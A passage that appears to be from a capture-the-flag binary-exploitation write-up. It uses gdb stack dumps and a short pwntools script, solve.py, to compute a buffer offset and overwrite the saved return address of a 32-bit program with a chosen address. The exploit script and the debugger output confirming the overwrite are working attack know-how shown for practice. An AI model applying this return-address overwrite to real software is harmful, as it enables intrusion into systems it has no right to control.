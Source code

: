 ```
(gdb) 
```
Yeah, 0x80485db (from the decompiled file) is the right address to go to

## How to inject data?
Let's look at the memory first
```
(gdb) info stack
#0  0x0804872f in main ()
(gdb) info frame
Stack level 0, frame at 0xffffcdf0:
 eip = 0x804872f in main; saved eip = 0xf7de5751
 Arglist at 0xffffcde8, args: 
 Locals at 0xffffcde8, Previous frame's sp is 0xffffcdf0
 Saved registers:
  ebp at 0xffffcde8, eip at 0xffffcdec
(gdb) x/24xw $ebp
0xffffcde8:	0x00000000	0xf7de5751	0x00000001	0xffffce84
0xffffcdf8:	0xffffce8c	0xffffce14	0x00000001	0x00000000
0xffffce08:	0xf7fa3000	0xffffffff	0xf7ffd000	0x00000000
0xffffce18:	0xf7fa3000	0xf7fa3000	0x00000000	0x767efa95
0xffffce28:	0x354b3c85	0x00000000	0x00000000	0x00000000
0xffffce38:	0x00000001	0x080484e0	0x00000000	0xf7fe9790
(gdb) x/24xw $esp
0xffffcce0:	0x0804926e	0xffffcce8	0x41414141	0x080488c0
0xffffccf0:	0x42424242	0x00000000	0x00000000	0x00000000
0xffffcd00:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcd10:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcd20:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcd30:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```
The saved eip and 1 value at ebp `0xf7de5751` looks familiar. Let's try overwriting it

`solve.py`:
```
from pwn import *
diff = 0xffffcde8-0xffffcce8#-0xf7de5751 #esp+8 - eip #0x804872f
print(diff)
padding = "A"*int(diff+4)
eip = p32(0x080488c0)
exploit=padding+eip+"BBBB"
```
```
Breakpoint 1, 0x0804872f in main ()
(gdb) x/72xw $esp+8
0xffffcce8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffccf8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd08:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd18:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd28:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd38:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd48:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd58:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd68:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd78:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd88:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd98:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcda8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcdb8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcdc8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcdd8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcde8:	0x41414141	0x080488c0	0x42424242	0xffffce00
0xffffcdf8:	0xffffce8c	0xffffce14	0x00000001	0x00000000
```